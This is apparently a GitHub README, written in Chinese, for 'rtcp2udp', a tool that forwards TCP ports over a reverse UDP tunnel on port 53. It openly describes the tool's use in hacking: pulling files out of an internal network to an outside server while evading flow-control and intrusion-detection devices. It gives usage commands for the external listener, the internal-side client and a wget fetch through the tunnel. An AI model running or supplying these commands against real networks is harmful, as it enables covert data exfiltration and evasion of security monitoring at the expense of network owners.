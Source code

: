 # rtcp2udp
反向端口转发工具  
Reverse TCP Port to UDP Forwarding Tools  

## 描述
在Hack场景中，Hack人员需要从内网获取指定文件，并向外网传输时，不被流控设备，入侵检测设备所警觉；  
本工具的原理为，向外网服务器建立一个反向的UDP(53)隧道,用于文件传输；  

## 实例图
![](https://github.com/ring04h/rtcp2udp/blob/master/portmap.png?20160429)
外网客户端连接 119.29.29.29 的80端口，等于连接内网 172.168.1.10 服务器的80端口，隧道采用UDP协议传输  

## 使用说明
Http Server  <- 内网机器 -> Internet Server (UDP隧道)  
Client -> tcp:119.29.29.29:80 -> udp:119.29.29.29:53 -> tcp:172.168.1.10:80

* 在你的外网服务器监听用于服务的 UDP&TCP 端口
这里假设场景,你的外网服务器 IP 为 119.29.29.29
```shell
[root@localhost ~]# python tcp2udp.py -t 0.0.0.0:80 -u 0.0.0.0:53
[INFO] UDPServer 0.0.0.0:53 Listening Success...
[INFO] TCPServer 0.0.0.0:80 Listening Success...
```
* 在内网机器打通与外网服务器之间的 UDP 隧道
```shell
[root@localhost ~]# python rtcp2udp.py -t 172.168.1.10:80 -u 119.29.29.29:53
[INFO] Client Bridge Connection Success...
```
* 当隧道打通后，就可以开始文件传输服务
```shell
[root@localhost ~]# wget http://119.29.29.29/src/file.tar.gz
```

